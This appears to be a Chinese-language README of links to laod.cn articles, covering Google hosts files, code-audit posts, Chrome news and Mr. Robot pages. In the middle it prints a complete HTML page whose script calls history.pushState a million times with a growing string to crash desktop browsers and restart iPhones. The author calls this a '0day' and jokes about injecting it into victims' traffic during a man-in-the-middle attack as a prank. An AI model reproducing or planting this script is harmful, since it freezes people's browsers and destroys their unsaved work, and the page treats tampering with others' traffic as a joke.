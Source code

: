 # laod.cn Google hosts



## 2016 Google hosts 持续更新【更新于:2017-05】

https://laod.cn/hosts/2016-google-hosts.html

https://laod.cn/hosts/2017-google-hosts.html


https://iiio.io/download/20170509/


提取码：https 解压密码：laod.cn


Windows 开始 -> 运行 -> 输入cmd -> 在CMD窗口输入: ipconfig /flushdns



## 代码审计




https://laod.cn/code-audit/how-does-google-find-our-pages.html

https://laod.cn/code-audit/jquery-is-not-a-function.html


https://laod.cn/code-audit/linux-file-permissions.html

https://laod.cn/code-audit/google-search-results-py-script.html


https://laod.cn/code-audit/nginx-google-fonts-ajax-gravatar-reverse-proxy.html


https://laod.cn/code-audit/html5-bug-crash-firefox-chrome-safari-browsers-and-also-restart-iphone-using-this-javascript-code-dos-0day-exploit.html


<html>
<head>
    <title>html5-bug</title>
</head>
<body>
    <div>
        <h1>demo：（温馨提示：请保存浏览器其它窗口的编辑任务）</h1>
        <a href="www.0xroot.cn/demo.html">www.0xroot.cn/demo.html (点击一下，又不会怀孕！)</a>
        <a href="https://laod.cn/tag/html5-bug/">https://laod.cn/tag/html5-bug/</a>
    </div>
<script>
    var total="";
    for (var i=0;i<1000000;i++){
       total= total + i.toString();
       history.pushState(0,0,total);
    }
</script>
</body>
</html>


这是Bug还是0day?为什么会有这一现象？
如何实现的？
有哪些比较有意思的利用姿势？
(我先来个:当在执行MITM中间人攻击的时候，可以注入这一段js，来个恶搞整蛊。然后都懂的...)


https://laod.cn/tag/chrome/


<script>
    // https://laod.cn/tag/chrome/
    // https://laod.cn/tag/chrome/0123456789
    let total = "";
    for (let i = 0; i < 10; i++){
       total += i.toString();
       history.pushState(0,0,total);
    }
</script>


https://laod.cn/news/google-https-chrome-62.html

https://laod.cn/tools/google-chrome-57.html

https://laod.cn/news/firefox-chrome-bug.html

https://laod.cn/tools/10-best-chrome-extensions.html

https://www.w3schools.com/browsers/default.asp

https://laod.cn/news/chrome-vr-webvr.html
https://laod.cn/news/chrome-flash.html






## movie

https://laod.cn/movie/mr-robot-s02.html

https://laod.cn/movie/mr-robot.html






































